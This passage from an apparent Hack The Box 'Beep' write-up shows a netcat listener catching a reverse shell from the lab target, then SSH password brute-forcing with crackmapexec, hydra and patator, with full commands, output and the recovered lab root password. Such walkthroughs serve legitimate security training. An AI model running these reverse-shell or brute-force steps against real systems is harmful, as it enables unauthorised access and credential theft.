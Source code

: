 ```shell
❯ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 59168
bash: no job control in this shell
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ whoami
asterisk
```

## SSH - TCP 22 [Path #2]

We can try to bruteforce SSH:

```shell
❯ crackmapexec ssh 10.10.10.7 -u htb/box/Beep/users.txt  -p passwords.txt
SSH         10.10.10.7      22     10.10.10.7       [*] SSH-2.0-OpenSSH_4.3
SSH         10.10.10.7      22     10.10.10.7       [-] root:amp109 Authentication failed.
SSH         10.10.10.7      22     10.10.10.7       [+] root:jEhdIekWmdjE (Pwn3d!)
```

We can also use hydra:

```shell
❯ hydra -L htb/box/Beep/users.txt -P passwords.txt -s 22 ssh://10.10.10.7 -v -t 4
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-22 18:37:00
[DATA] max 4 tasks per 1 server, overall 4 tasks, 24 login tries (l:6/p:4), ~6 tries per task
[DATA] attacking ssh://10.10.10.7:22/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[INFO] Testing if password authentication is supported by ssh://root@10.10.10.7:22
[INFO] Successful, password authentication is supported by ssh://10.10.10.7:22
[22][ssh] host: 10.10.10.7   login: root   password: jEhdIekWmdjE
```

Alternatively, patator is useful as well:

```shell
❯ patator ssh_login host=10.10.10.7 port=22 user=FILE0 password=FILE1 0=htb/box/Beep/users.txt 1=passwords.txt
18:39:49 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.8 at 2021-12-22 18:39 EST
18:39:49 patator    INFO -
18:39:49 patator    INFO - code  size    time | candidate                          |   num | mesg
18:39:49 patator    INFO - -----------------------------------------------------------------------------
18:40:01 patator    INFO - 0     19    10.516 | root:jEhdIekWmdjE                  |     2 | SSH-2.0-OpenSSH_4.3
```

Ncrack is also an option:
